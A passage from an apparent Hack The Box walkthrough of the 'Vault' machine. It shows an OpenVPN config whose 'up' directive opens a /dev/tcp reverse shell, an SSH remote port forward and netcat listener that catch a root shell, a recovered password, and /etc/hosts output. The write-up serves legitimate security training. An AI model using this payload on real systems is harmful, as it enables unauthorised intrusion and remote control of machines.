 Searching for OpenVPN configuration exploits, you find a blog post by Jacob Baines[\[2\]](exercise-initial-access-and-port-forwarding-on-hack-the-box-machine-vault.md) which gives a configuration for returning a reverse shell. Adapting this, you can paste the following into the page, update the file and then click Test VPN.

```bash
Remote 192.168.122.1
nobind
dev tun
script-security 2
up ​"/bin/bash -c '/bin/bash -I > /dev/tcp/192.168.122.1/6002 0<&1 2>&1&'"
```

Rather than run the Netcat listener on the Vault machine however, you can use another SSH remote port forwarder to tunnel the shell back to our local machine. To do this from an existing SSH session, you can use the special characters ~C at the beginning of the command prompt to drop into an SSH prompt and then set up the remote port forward:

```bash
dave@ubuntu:~$
ssh> -R 6002:127.0.0.1:6002
Forwarding port.
dave@ubuntu:~$
```

Setting up the listener on the local machine will then give us a reverse shell on the DNS machine as root.

```bash
┌─[rin@parrot]─[~/boxes/Vault]
└──╼ $nc -lvnp 6002
listening on [any] 6002 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56806
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html#
```

Looking around the box, you find that the ssh file in /home/dave has a password dav3gerous567.

Looking at the /etc/hosts file, you see an entry for the vault machine:

```bash
root@DNS:/home/dave# cat /etc/hosts
cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 DNS
192.168.5.2 Vault
# The following lines are desirable for Ipv6 capable hosts
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

The machine doesn’t respond to a ping but using nmap on the Vault machine, you find two ports that are closed:
